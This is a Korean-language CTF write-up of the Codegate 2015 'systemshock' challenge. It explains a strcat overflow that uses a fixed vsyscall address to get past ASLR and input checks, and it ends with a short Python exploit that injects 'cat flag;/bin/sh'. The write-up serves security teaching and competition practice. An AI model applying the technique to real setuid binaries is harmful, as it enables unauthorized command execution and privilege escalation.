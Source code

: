 title: Codegate 2015 - systemshock
date: 2015-04-06 12:20:08
author: l34p
tags:
- l34p
- codegate
- ctf
- writeup
---
200점짜리 문제로, 많은 팀들이 가장먼저 푼 문제입니다. 

문제가 나오고 정말빨리 풀렸는데, 저는 처음에 문제 제목에 현혹되어 [shellshock][shellshock]인줄 알고 헤메느라 시간이 많이 걸렸네요... ㅠㅠ
실제로 당황스럽게도 대회 서버에서 [CVE-2014-6277][CVE-2014-6277]이 먹혔더라죠... ;;

하지만 차분히 생각해보면 [shellshock][shellshock]는 `setuid`가 걸려있는 바이너리안에서 `bash`를 호출해야한다는 점과 환경변수를 필요로 한다는점을 생각해보면 이 문제에서는 [shellshock][shellshock]를 사용할 수 없다는걸 바로 알 수 있습니다.

이걸 생각못해서 날린 시간이 몇시간인지.. 흙흙

여튼, 이 문제는 [shellshock][shellshock]를 이용해서 푸는 문제가 아닌 strcat을 이용한 단순한 오버플로우 문제입니다. 제대로 된 풀이만 바로 떠올리면 정말 빨리 풀 수 있는 문제이지요... 실제로 문제가 나오자마자 엄청 빠른 속도로 풀린 문제이기도 합니다.

그럼 각설하고 풀이로 들어가보도록 하겠습니다!

## 문제환경

<p align="center"> <img src="/img/systemshock1.png" style="width: 90%;"/> </p>

오호 정확히 `strlen`의 인자로 넣어준 A들이 들어간것을 볼 수 있습니다.

그럼 이제 해야할것은 `argv[1]`의 포인터를 덮어씌우기 위해 앞에 몇개의 A를 넣어줘야하는지와 어떤 값으로 덮어써야할지를 정하면 되겠습니다.

어떤값으로 덮어써야할지는 비어있는 문자열 즉 null이 들어있는 주소로 덮어주면 됩니다. 그러면 `strlen`의 리턴값이 0이 되고, 입력값 검사를 우회할수 있게 됩니다. 그런데 여기서 또 생각해 줘야할 부분이 서버에는 ASLR이 걸려있어 주소들이 랜덤이고 32비트가 아니라 ulimit -s unlimited 같은 꼼수도 못부립니다 ㅠㅠ.. 하지만! 64비트에도 고정인 주소가 있으니... 바로 그부분은 vsyscall 영역입니다.

<p align="center"> <img src="/img/systemshock2.png" style="width: 80%;"/> </p>

끝부분에 보이는 

```
0xffffffffff600000    0xffffffffff601000 r-xp      [vsyscall]
```

부분은 ASLR이 걸려있더라도 고정인 주소로 매핑됩니다. 그렇다면 이 vsyscall 영역에 null이 들어있는 주소가있다면?! 그 주소로 `strlen`의 인자, 즉 argv[1]의 포인터를 덮어씌우면 끝나게 됩니다.

그러면 이제 이 vsyscall 영역에 null문자열이 있는지 한번 찾아봅시다.

<p align="center"> <img src="/img/systemshock3.png" style="width: 90%;"/> </p>

찾는방법은 여러가지 있겠으나 저는 peda의 searchmem 기능을 이용하여 찾았습니다.
vsyscall 영역에서 null(0x00) 으로 찾으니 꽤 많이 나오는데 이 중에서 값의 중간에 0x00 널값이 포함안되는 값으로 아무거나 하나 정해주면됩니다.

null이 들어가면 안되는 이유는 문제 바이너리를 실행할때 인풋을 argv[1]로 넘겨주는데 이 argv[1]은 중간에 null값이 들어갈 수 없기 때문입니다. ( null 값이 들어가면 null뒤의 값들은 짤립니다.. ㅠㅠ )

여튼 그럼 저는 적당히 0xffffffffff600405 로 골라서 하도록 하겠습니다.

이제 남은일은 앞에 더미값인 A를 몇개나 입력해줘야하는가 인데, 자세히 분석해서 알아낼 수도 있겠지만 대회 특성상 문제를 빨리풀어야하는걸 고려해서 peda의 pattern 명령어를 사용하여 자세히 분석하지 않고도 쉽게 알아낼수 있는 방법을 쓰도록 하겠습니다.

<p align="center"> <img src="/img/systemshock4.png" style="width: 85%;"/> </p>

pattern create 1024 pattern.txt 를 입력하면 pattern.txt 라는 파일에 1024개의 패턴 문자가 쓰여지게 됩니다.
그리고 실행할때 r `cat pattern.txt` 로 실행을 하면 방금 만든 pattern 값들을 argv[1]로 넘기면서 실행할 수 있습니다.

이렇게 실행을 하면,

<p align="center"> <img src="/img/systemshock5.png" style="width: 85%;"/> </p>

이렇게 `strlen`의 인자가 패턴값으로 덮힌것을 알 수 있습니다.

이상태에서 pattern.txt 파일을 열어 ANsA8sAi 의 문자열을 찾아 ( 리틀엔디안이므로 문자열을 뒤집은 것입니다. ) 이 문자열앞의 문자 갯수를 python len 함수같은것을 이용하여 세어봐도 되고, peda의 pattern search 라는 기능을 이용해도 됩니다.

<p align="center"> <img src="/img/systemshock6.png" style="width: 85%;"/> </p>

pattern search를 해보면 offset이 525로 나오는데 이게 우리가 구할 offset과 일치합니다.

이렇게 offset을 구했으니 "A" 525개 + "B" 8개 를 넣어서 offset이 맞는지 한번 확인해보도록 하겠습니다.

<p align="center"> <img src="/img/systemshock7.png" style="width: 90%;"/> </p>

`strlen`에 breakpoint를 걸은후, `perl -e'print"A"x525, "B"x8'` 로 실행시키면 정확히 `strlen`의 인자로 BBBBBBBB가 들어가는것을 볼 수 있습니다.

그럼 이제 BBBBBBBB 부분 대신에 아까 구해준 null이 들어있는 주소,  0xffffffffff600405 으로 대신 넣어주고 "A"525개에 A만 넣는게 아니라 실행시킬 명령어도 포함시켜 주면 입력값 검사를 안받게되고 임의의 명령어를 실행시킬수 있게 됩니다.

## Exploit Code

```python
# exploit.py
# ./shock "`cat payload`"
from struct import pack

f = open("payload", "w")

null_addr=0xffffffffff600405
cmd="HACKED;cat flag;/bin/sh;#"

payload = cmd + "A"*(525-len(cmd))
payload+= pack("<Q", null_addr)

f.write(payload)
f.close()
```

![](/img/systemshock8.png)

궁금한부분이 있거나 수정할 부분이 있으면 언제든 말해주세요!

작성자: [l34p](https://github.com/L34p/)

[CVE-2014-6277]: https://en.wikipedia.org/wiki/Shellshock_(software_bug)#CVE-2014-6277
[shellshock]: https://en.wikipedia.org/wiki/Shellshock_(software_bug)
